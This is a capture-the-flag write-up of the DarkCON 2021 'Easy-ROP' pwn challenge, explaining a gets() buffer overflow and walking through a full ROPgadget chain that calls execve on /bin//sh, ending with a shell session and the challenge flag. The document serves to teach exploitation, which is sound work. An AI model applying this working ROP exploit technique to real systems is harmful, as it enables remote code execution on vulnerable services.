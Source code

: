 # Easy-ROP - DarkCON 2021

- Category: Pwn
- Points: 441
- Solves: 84
- Solved by: Lu191

## Description

Welcome to the world of pwn!!! This should be a good entry level warmup challenge !! Enjoy getting the shell

`kali@kali:~/# nc 65.1.92.179 49153`

```
Welcome to the darkcon pwn!!
Let us know your name:
```

## Analysis

The program just read from the stdin and then exit. As the name of the challenge suggest this seems to be an easy buffer overflow challenge, so we try to 
pass a very long string to the stdin and we see that the program crashes with a segmentation fault as we expected, so lets analyze the code and confirm this.
We analyze it with ghidra and looking at main() funtcion we confirm that there is a buffer overflow because this program use the function gets() to read from the stdin.

```
void main(void)

{
  char local_48 [64];
  
  setvbuf((FILE *)stdin,(char *)0x0,2,0);
  setvbuf((FILE *)stdout,(char *)0x0,2,0);
  setvbuf((FILE *)stderr,(char *)0x0,2,0);
  alarm(0x40);
  puts("Welcome to the darkcon pwn!!");
  printf("Let us know your name:");
  gets(local_48);
  return;
}
```

So in order to overwrite the IP (Instruction Pointer) we have first to overwrite the stack with 72 chars (64 array's length + 8 for the Frame Pointer) with junk.
Let's check the properties of the executable.

`kali@kali:~/# checksec easy-rop`

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

We don't have PIE enabled so any static ROPchain should work fine.
We see with a few tries with pwndbg that the Canary found should not be a problem because it will not be overwritten with a small ropchain.

## Solution

We try to automate the process of creation of the ropchain using a tool called ROPGadget.

`kali@kali:~/# ROPgadget --binary easy-rop --ropchain`

```
p += pack('<Q', 0x000000000040f4be) # pop rsi ; ret
p += pack('<Q', 0x00000000004c00e0) # @ .data
p += pack('<Q', 0x00000000004175eb) # pop rax ; ret
p += '/bin//sh'.encode()
p += pack('<Q', 0x0000000000481e65) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x000000000040f4be) # pop rsi ; ret
p += pack('<Q', 0x00000000004c00e8) # @ .data + 8
p += pack('<Q', 0x0000000000446959) # xor rax, rax ; ret
p += pack('<Q', 0x0000000000481e65) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x000000000040191a) # pop rdi ; ret
p += pack('<Q', 0x00000000004c00e0) # @ .data
p += pack('<Q', 0x000000000040f4be) # pop rsi ; ret
p += pack('<Q', 0x00000000004c00e8) # @ .data + 8
p += pack('<Q', 0x000000000040181f) # pop rdx ; ret
p += pack('<Q', 0x00000000004c00e8) # @ .data + 8
p += pack('<Q', 0x0000000000446959) # xor rax, rax ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004012d3) # syscall
```

Let's analyze the ropchain it built.
We will spawn our shell using syscall and execve which both take a few arguments, let’s look at syscall first:

`syscall(RAX, RDI, RSI, RDX)`

The RAX (Accumulator register) will hold the system call number where we will call execve (number 59 or 0x3b in hexadecimal).
The RDI (Destination Index register) argument will point to /bin/sh.
The RSI and RDX (Source Index register and Data register) are additional arguments that we will zero out.

Since PIE (Position Independent Executable) isn't enabled we know that the .data address won't change from run to run. So, this is a great place to store /bin/sh in memory. Let's check our section permissions and check our .data section address.
We use readelf to copy the address where the .data section starts.

`kali@kali:~/# readelf -t easy-rop`

```
There are 32 section headers, starting at offset 0xd4678:

Intestazioni di sezione:
[N°] Nome   Tipo      Indirizzo         Offset            Link    Dimensione       DimEnt           Info  Allin    Flag
...
[21] .data  PROGBITS  00000000004c00e0  00000000000bf0e0  0       0000000000001a30 0000000000000000  0    32       [0000000000000003]: WRITE, ALLOC
...
```

So we first set rsi with the address where the .data section starts, then we set rax that now contains the string "/bin//sh" we use two forwardslash due to padding.
Then we copy the string "/bin//sh" in memory (.data section).

```
p += pack('<Q', 0x000000000040f4be) # pop rsi ; ret
p += pack('<Q', 0x00000000004c00e0) # @ .data
p += pack('<Q', 0x00000000004175eb) # pop rax ; ret
p += '/bin//sh'.encode()
p += pack('<Q', 0x0000000000481e65) # mov qword ptr [rsi], rax ; ret
```

We write a null byte to the address where is located the .data section + 8, then we set the right values for the three registers that will be used for the syscall, now we the RDI argument will point to /bin/sh string located where the .data section start and the RSI and RDX point to the null byte located at the address of .data + 8, so they are zero out.

```
p += pack('<Q', 0x000000000040f4be) # pop rsi ; ret
p += pack('<Q', 0x00000000004c00e8) # @ .data + 8
p += pack('<Q', 0x0000000000446959) # xor rax, rax ; ret
p += pack('<Q', 0x0000000000481e65) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x000000000040191a) # pop rdi ; ret
p += pack('<Q', 0x00000000004c00e0) # @ .data
p += pack('<Q', 0x000000000040f4be) # pop rsi ; ret
p += pack('<Q', 0x00000000004c00e8) # @ .data + 8
p += pack('<Q', 0x000000000040181f) # pop rdx ; ret
p += pack('<Q', 0x00000000004c00e8) # @ .data + 8
```

Our final steps are to set 0x3b (execve syscall) into RAX (this is done setting first rax to 0 xoring rax with rax and then adding 1 to rax until it reaches 0x3b, so 59 times) and then invoke our syscall.

```
p += pack('<Q', 0x0000000000446959) # xor rax, rax ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
...
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004012d3) # syscall
```

`kali@kali:~/# python3 exploit.py`

```
[+] Opening connection to 65.1.92.179 on port 49153: Done
[*] Switching to interactive mode
$ id
uid=1000(challenge) gid=1000(challenge) groups=1000(challenge)
$ ls
easy-rop
flag
run.sh
ynetd
$ cat flag
darkCON{w0nd3rful_m4k1n9_sh3llc0d3_us1n9_r0p!!!}
```

